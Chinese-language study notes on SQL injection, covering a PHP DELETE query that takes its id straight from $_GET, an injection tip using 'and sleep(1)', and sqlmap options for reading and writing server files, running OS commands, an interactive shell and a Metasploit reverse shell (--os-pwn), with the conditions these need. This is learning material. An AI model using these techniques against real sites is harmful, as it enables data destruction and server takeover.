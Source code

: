 <img src="图片\Snipaste_2023-03-18_14-17-11.png" alt="Snipaste_2023-03-18_14-17-11" style="zoom:80%;" />

### DELETE注入：

```
$res = mysqli_query（$conn,"DELETE FROM wp_neWs WHERE id= {$_GET['id']")}
```

- DELETE语句的作用是删除某个表的全部或指定行的数据。
- 对id参数进行注入时，稍有不慎就会使WHERE后的值为True，导致整个wp_news的数据被删除。
- 为了保证不会对正常数据造成干扰，通常使用'and sleep（1）'的方式保证WHERE后的结果返回为False，让语句无法成功执行。

# sqlmap进阶笔记

**前提条件**
网站必须是root权限
需要知道网站的绝对路径
GPC为off，php主动转义的功能关闭
My.ini secure_file_priv=""

**文件操作**

```
–file-read #读取指定文件
–file-write #写入本地文件
–file-dest #要写入的文件绝对路径
```

**命令执行**

```
–os-cmd=whoami #执行系统命令
–os-shell #系统交互shell
```

原理：类似上传webshell到网站路径

**和msf的结合**

```
–os-pwn #反弹shell(–os-pwn --msf-path=/opt/framework/msf3/)
```

原理剖析
Sqlmap会传上去两个文件来自动上传文件，自动执行命令

**-r 从文件里的数据包注入**

